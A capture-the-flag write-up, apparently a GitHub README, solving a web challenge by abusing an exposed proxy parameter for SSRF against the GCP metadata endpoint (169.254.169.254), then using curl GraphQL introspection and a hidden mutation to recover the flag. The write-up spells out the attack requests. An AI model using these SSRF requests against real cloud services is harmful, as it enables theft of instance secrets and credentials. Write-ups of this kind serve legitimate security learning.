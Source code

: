 # DoD-Cyber-Sentinel-CTF---Web-Hard

The following challenge was part of the 2025 DoD Cyber Sentinel CTF, in which I placed 9th! This challenge was by far one of the most fun CTF challenges I have done, and combines multiple web exploits and topics along the adventure for the flag.

<ins>**The Great Juche Jaguar GraphQL Heist (Web Exploitation Hard)**</ins>

**Challenge:**

"Operative, Juche Jaguar’s intranet exposes a proxy at /proxy?url=

Abuse it to reach the internal metadata service and pull down the one‐time secret header. Armed with that header, you must then POST to the guarded GraphQL endpoint at /graphql.

The flag lives behind a mutation whose name is randomized on each startup—introspect the schema to discover it and invoke it to exfiltrate the flag. No README, no docs—discover everything yourself."

---

**Process:**



The challenge text itself reveals some key information about the web application and the initial attack vector. First, we are given that /proxy?url= is exposed on the web server, allowing us to craft a request to reach the internal metadata service as suggested by the challenge.

By looking at the IP address, I knew that this web app was likely a GCP-hosted service as it has a 34.x.x.x address. By doing some research, I discovered that the internal metadata services for these servers are hosted at the hostname metadata.google.internal (169.254.169.254)

Using our exposed /proxy?url= parameter, I attempted to create the following request in Burp Suite (curl could also be used):

```GET /proxy?url=http://metadata.google.internal/computeMetadata/v1/instance/attributes/```

Unfortunately, this request resulted in an invalid URL response. Since metadata.google.internal did not resolve (as expected in SSRF), I tried the direct IP 169.254.169.254:

```GET /proxy?url=http://169.254.169.254/computeMetadata/v1/instance/attributes/```

Thankfully, this worked and revealed two attribute names for me, “X-JJ-SECRET” and “ssh-keys”

---

Given that the challenge asks us to find the one-time secret header, we can conclude that “X-JJ-SECRET” is our target. With one more GET request, we can grab the attribute:

```GET /proxy?url=http://169.254.169.254/computeMetadata/v1/instance/attributes/X-JJ-SECRET```

Which returns the value “S3NT1N3L”

---

Now that I had the one-time secret header, it was time to make a POST request to the guarded GraphQL endpoint at /graphql. The challenge states that the flag lives behind a mutation whose name is randomized on each startup, and thus, we need to consult the schema. I achieved this using a simple POST request with curl:

```
curl -X POST "http://34.86.186.68:8080/graphql" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { mutationType { fields { name } } } }"}'
```

Which returned: eyJkYXRhIjp7Il9fc2NoZW1hIjp7Im11dGF0aW9uVHlwZSI6eyJmaWVsZHMiOlt7Im5hbWUiOiJtMzA5ZTUzMzYifV19fX19   

A quick base64 decode reveals the name of the target mutation "m309e5336"
![image](https://github.com/user-attachments/assets/dba3e1e3-9600-4324-acbf-155bdc03bf79)

---

Now that I have the name for the mutation, one more request is required:

```
curl -X POST "http://34.86.186.68:8080/graphql" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  -H "Content-Type: application/json" \
  -d '{"query":"mutation { m309e5336 }"}'         
```

Which returned:
eyJkYXRhIjp7Im0zMDllNTMzNiI6IkMxe3NzdDFfcjNtMHQzX2MwZDNfeDNjfSJ9fQ==

Using base64, we can obtain our flag:
![image](https://github.com/user-attachments/assets/50d571b6-700b-49d9-a3dd-a07c5973d69e)

